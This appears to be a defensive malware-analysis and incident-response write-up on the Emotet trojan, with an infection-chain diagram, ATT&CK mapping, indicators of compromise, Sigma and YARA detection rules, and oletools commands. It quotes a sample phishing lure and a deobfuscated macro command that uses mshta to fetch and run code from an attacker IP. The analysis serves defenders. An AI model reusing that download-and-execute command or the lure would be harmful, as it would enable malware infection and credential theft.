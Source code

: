 # Emotet - The Malware Kingpin Exposed | Complete DFIR and malware analysis

**Linkedin** - https://www.linkedin.com/in/deepanshukhanna/

**Youtube Video link for complete analysis** - https://www.youtube.com/watch?v=pZceKO0QJQY

**Practical Digital Forensics and Incident Response - Amazon book link** - https://www.amazon.in/Digital-Forensics-Incident-Response-investigations/dp/9365898714

What is Emotet?
Emotet is a sophisticated, modular banking Trojan that evolved into a botnet used to deliver other types of malware such as ransomware (e.g., Ryuk, Conti) and steal sensitive information. It is primarily known for its highly effective phishing campaigns and worm-like propagation.

Initially discovered in 2014, Emotet was designed to steal banking credentials, but it later developed into a malware-as-a-service (MaaS) platform used by multiple cybercrime groups.

  Why Emotet is famous
1. **Modular Architecture**
Emotet consists of a main loader and multiple modules. The loader installs Emotet, maintains persistence, and downloads additional modules, including:
- Credential stealer
- Email harvester
- Spam bot
- Malware downloader (for TrickBot, QakBot, Ryuk, etc.)

2. **Polymorphic Code**
Emotet changes its payload structure frequently to avoid antivirus detection using polymorphism, where the malware dynamically alters its code during replication.

3. **Command and Control (C2) Infrastructure**
The botnet uses encrypted C2 communication and hardcoded IP lists for redundancy. Its architecture is often peer-to-peer, enhancing its resilience against takedowns.

-------------------------------------------------------------------------------------
**Email Lures**

From: hr-payroll@company-internal.com
To: employee@company.com
Subject: FY2025 Salary Adjustment Notice

Hi,

We’ve completed the annual compensation review. Your salary adjustment details are in the attached confidential memo.

Please do not share this document externally.

Regards,  
Meera Chauhan  
HR Manager – Compensation  
Company Internal HR  
Attachment: Salary_Adjustment_FY2025.doc
---------------------------------------------------------------------------------------
[Phishing Email]
     |
     v
[Malicious Word/Excel Doc w/ Macro]
     |
     v
[User Enables Macros]  --- the macro code contained the dropper and execution from the trusted paths / folders 
     |
     v
[Emotet Loader Execution]
     |
     v
[Connects to C2 Server]
     |
     +--> [Download Modules]
     |         ├─ Credential Stealer
     |         ├─ Email Stealer
     |         └─ Propagation Tools
     |
     +--> [Dropper for Payloads]
               ├─ TrickBot
               ├─ QakBot
               └─ Ransomware (e.g., Ryuk)

----------------------------------------------------------------
**MITRE ATT&CK Mapping for Emotet**
Initial Access	Phishing: Spearphishing Attachment -	T1566.001
Execution	User Execution: Malicious Document	- T1204.002
Persistence	Registry Run Keys / Startup Folder -	T1547.001
Privilege Escalation	Process Injection -	T1055
Defense Evasion	Obfuscated Files or Information -	T1027
Credential Access	Credentials from Web Browsers -	T1555.003
Discovery	System Information Discovery -	T1082
Lateral Movement	SMB/Windows Admin Shares -	T1021.002
Command & Control	Encrypted Channel over HTTP/S -	T1573.001
Collection	Email Collection -	T1114
Impact	Data Encrypted for Impact (via Ryuk) -	T1486

----------------------------------------------------------------
**Emotet: Indicators of Compromise (IOCs)**
Hashes (Sample Payloads)
SHA256: 3c8b3b7db9fcb73a3b55e9e4bb5c9d5c68d42128c87e478f92e165ba2ecf4e2a
SHA256: 21db61f8e72e2b237d84e78c8cbfb3834e38f229e7fcce44edb77293e4e18f3a

Known C2 IPs / Domains (frequently rotate)
185.149.120.14
185.7.214.7
45.95.168.196
forextart.com
gloryhotel[.]top

Filenames Used
INVOICE_458273.doc
Shipment_Tracking_032023.xls
Resume_JamesBrown.doc

File Paths

C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Templates\randomname.exe
C:\ProgramData\<random>.exe

------------------------------------------------------------------

**SIEM detection ---**

title: Emotet Execution via Office Macros
id: a1b2c3d4-5678-90ab-cdef-1234567890ef
status: stable
description: Detects suspicious use of Office applications spawning PowerShell or CMD indicative of Emotet infection
author: Security_analyst
logsource:
  category: process_creation
  product: windows
detection:
  selection:
    ParentImage|endswith:
      - '\WINWORD.EXE'
      - '\EXCEL.EXE'
    Image|endswith:
      - '\powershell.exe'
      - '\cmd.exe'
  condition: selection
fields:
  - CommandLine
  - ParentImage
  - Image
  - User
  - Hostname
level: high
tags:
  - attack.execution
  - attack.t1204.002
  - malware.emotet

------------------------------------------------
**Yara rule **

rule Emotet_Loader_Detection
{
    meta:
        description = "Detects Emotet malware loader"
        author = "security_analyst"
        date = "2025-04-12"
        malware_family = "Emotet"
        reference = "https://malpedia.caad.fkie.fraunhofer.de/details/win.emotet"
    strings:
        $mz = { 4D 5A }                         // PE Header
        $http1 = "GET / HTTP/1.1" ascii
        $ua1 = "User-Agent: Mozilla/5.0" ascii
        $c2str = ".php?id=" ascii
        $exe_indicator = "Software\\Microsoft\\Windows\\CurrentVersion\\Run" ascii
        $randexe = "temp" ascii wide
        $email_harvest = "Outlook.Application" ascii
    condition:
        uint16(0) == 0x5A4D and
        all of ($mz*) and
        3 of ($http1, $ua1, $c2str, $exe_indicator, $email_harvest)
}
----------------------------------------------------------------
**Emotet analysis --**

sudo mraptor -m emotet.xls -- to detect the macros
sudo msodde -a emotet.xls  -- to detect the DDE links
sudo oleobj emotet.xls -v  -- oleobj is a script to extract embedded objects from OLE files.
sudo olebrowse emotet.xls  -- browser based olevba analysis 
								--- save it in the .bin (stream file)
								
sudo cat stream.bin

sudo oleid emotet.xls  
sudo olevba emotet.xls
sudo olevba emotet.xls --decode  ---  showing all obfuscated strings decoded
sudo olevba emotet.xls --reveal  -- macro source code with VBA strings deobfuscated

----------------
Original: cmd /c m^sh^t^a h^tt^p^:/^/0xb907d607/c^c.h^tm^l"

Cleaned version: cmd /c mshta http://0xb907d607/cc.html

hexadecimal to IP address -- https://www.browserling.com/tools/hex-to-ip
			0xb907d607  === 185.7.214.7

----------------------------------------
sudo qu1cksc0pe --file emotet.xls --vtFile
sudo qu1cksc0pe --file emotet.xls --domain
sudo qu1cksc0pe --file emotet.xls --docs

------------------------------------------------------------


This Excel file contains a hidden malicious macro (a small program) that runs automatically when the file is opened. Here's what it does:

1. What Happens When You Open the File?
The macro Auto_Open triggers immediately (like an autostart virus).

It runs a hidden command that downloads and executes malware from a attacker’s server.

2. The Malicious Command (Deobfuscated)
The macro contains an obfuscated (hidden) command:

cmd
cmd /c mshta http://0xb907d607/cc.html
cmd /c → Runs a command in the Windows terminal.

mshta → Executes a malicious HTML file (often used to run scripts silently).

http://0xb907d607/cc.html → An attacker-controlled website (IP in hex: 185.7.214.7).

3. What Does This Do?
Downloads malware from http://185.7.214.7/cc.html.

Executes it silently using mshta (Microsoft HTML Application).

Likely installs Emotet (a dangerous banking trojan/spyware) or ransomware.

4. Red Flags
Auto-execution (runs as soon as Excel opens).
Obfuscated URLs (hidden in hex & with ^ to evade detection).
Uses mshta (a common malware trick to bypass security).
Connects to a shady IP (185.7.214.7 – likely a malware server).
